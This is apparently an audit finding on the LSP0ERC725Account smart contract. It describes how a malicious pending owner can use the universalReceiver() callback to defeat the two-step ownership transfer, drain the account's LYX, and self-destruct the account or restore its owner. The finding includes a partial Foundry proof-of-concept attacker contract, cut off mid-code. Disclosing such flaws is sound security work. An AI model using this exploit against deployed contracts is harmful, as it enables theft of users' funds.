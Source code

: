The `currentOwner == owner()` check ensures that `pendingNewOwner` did not call `acceptOwnership()` in the `universalReceiver()` callback. However, a malicious contract can bypass this check by doing the following in its `universalReceiver()` function:

*   Call `acceptOwnership()` to gain ownership of the LSP0 account.
*   Do whatever they want, such as transferring the account's entire LYX balance to themselves.
*   Call `execute()` to perform a delegate call that does either of the following:
    *   Delegate call into a contract that self-destructs, which will destroy the account permanently.
    *   Otherwise, use delegate call to overwrite `_owner` to the previous owner.

This defeats the entire purpose of a two-step ownership transfer, which should ensure that the LSP0 account cannot be lost in a single call if the owner accidentally calls `transferOwnership()` with the wrong address.

### Impact

Should `transferOwnership()` be called with the wrong address, the address could potentially bypass the two-step ownership transfer process to destroy the LSP0 account in a single transaction.

### Proof of Concept

The following Foundry test demonstrates how an attacker can drain the LYX balance of an LSP0 account in a single transaction when set to the pending owner in `transferOwnership()`:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../../contracts/LSP0ERC725Account/LSP0ERC725Account.sol";

contract Implementation {
    // _owner is at slot 0 for LSP0ERC725Account
    address _owner; 

    function setOwner(address newOwner) external {
        _owner = newOwner;
    }
}

contract MaliciousReceiver { 
    LSP0ERC725Account account;
    bool universalReceiverDisabled;
    
    constructor(LSP0ERC725Account _account) {
        account = _account;
    }

    function universalReceiver(bytes32, bytes calldata) external returns (bytes memory) {
        // Disable universalReceiver() 
        universalReceiverDisabled = true;

        // Cache owner for later use
        address owner = account.owner();

        // Call acceptOwnership() to become the owner
        account.acceptOwnership();

        // Transfer all LYX balance to this contract
        account.execute(
            0, // OPERATION_0_CALL
            address(this),
            10 ether,
            ""
        );
```